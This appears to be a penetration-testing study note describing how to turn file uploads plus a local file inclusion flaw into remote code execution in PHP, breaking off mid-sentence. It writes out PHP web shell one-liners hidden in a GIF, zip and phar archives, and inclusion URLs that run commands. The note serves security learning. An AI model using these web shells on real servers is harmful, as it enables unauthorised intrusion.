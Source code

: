 For LFI to work in file uploads, the file upload form do not need to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` [capabilities](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FRead%20vs%20Execute), then the code within the file we upload will get executed if we include it, regardless of the file extension or file type.

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.
## Crafting Malicious Image
The first step is to create a malicious image file containing a shell code that still looks and works as an image. The file should still include the image magic bytes at the beginning of the file content (i.e `GIF8`), just in case the upload form checks for both the extension and content type as well. For example:
```bash
echo 'GIF8<?php system($_GET["cmd"]) ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Once the malicious file has been uploaded, all we need to do is include it through the LFI vulnerability. To do this, we need to know the path of the uploaded file. In most cases, especially with images, we can get its path from inspecting the source code after uploading the image.
```txt
http://target-website.com/?language=./images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]) ?>' > shell.php && zip shell.jpg shell.php
```
> Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we have uploaded `shell.jpg`, we can include it with the `zip` wrapper as follows:
```txt
http://target-website.com/?language=zip://./images/shell.jpg#shell.php&cmd=id
```
## Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php

$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
Next we will combine this script into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with:
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
Now, we should have a `phar` file called `shell.jpg`, next we uplo